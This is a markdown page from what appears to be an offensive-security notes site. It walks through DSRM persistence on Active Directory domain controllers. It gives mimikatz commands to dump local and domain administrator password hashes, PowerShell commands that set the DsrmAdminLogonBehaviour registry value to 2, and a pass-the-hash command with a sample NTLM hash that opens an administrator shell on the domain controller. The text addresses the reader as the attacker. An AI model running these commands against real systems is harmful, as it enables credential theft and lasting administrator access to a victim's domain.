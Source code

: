 # DSRM

## <mark style="color:red;">DSRM</mark>

All domain controllers have a hard-coded local Administrator account stored in their SAM file. This account and local database are not used or generally available when the domain controllers are running normally.

While Active Directory Domain Controller is configured, the wizard prompts ask to enter a DSRM password for the local administrator. This password provides the administrator with a back door to the database in case something goes wrong later.

**DSRM persistence is possible where the systems do not change the DSRM password after AD installation or do not follow the standard of changing passwords regularly for DSRM.**

### <mark style="color:orange;">Extract the Hash</mark>

All you need to do is just run the mimikatz with Administration privilege and execute these commands given below:

```
privilege::debug
token::elevate
```

Extract local Administrator Password Hash

```
lsadump::sam
```

Extract AD Administrator Password Hash

```
lsadump::lsa /patch
```

### <mark style="color:orange;">Change the DSRM Registry Key Value</mark>

Once you have the local administrator password hash you need to make some changes inside the Windows registry that will allow you (attacker) to login into Domain Controller using DSRM hashes without rebooting the server.

Very first confirm the registry key value for DsrmAdminLogonBehaviour with the help of the following command:

```
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
```

{% hint style="info" %}
If DsrmAdminLogonBehaviou registry key is not present inside the HKLM:\System\CurrentControlSet\Control\Lsa\ then create a new key and set the value with the help of the following command:
{% endhint %}

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
```

#### the `DsrmAdminLogonBehaviour Value=0` will not allow login into DC using DSRM hash.

Set DsrmAdminLogonBehaviour value=2 with the help of the following command:

```
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

### <mark style="color:orange;">Pass the DSRM Hash</mark>

#### <mark style="color:green;">At Client System</mark>

To access the domain controller CMD through the client system, run mimikatz with administrator privilege and execute the following command:

```
privilege::debug
sekurlsa::pth /user:Administrator /domain:ignite.local /ntlm:32196B56FFE6F45E294117B91A83BF38
```

Use the hash value of the local Administrator in the above command

This will provide you (attacker) the Administrator privilege cmd shell of the Domain controller
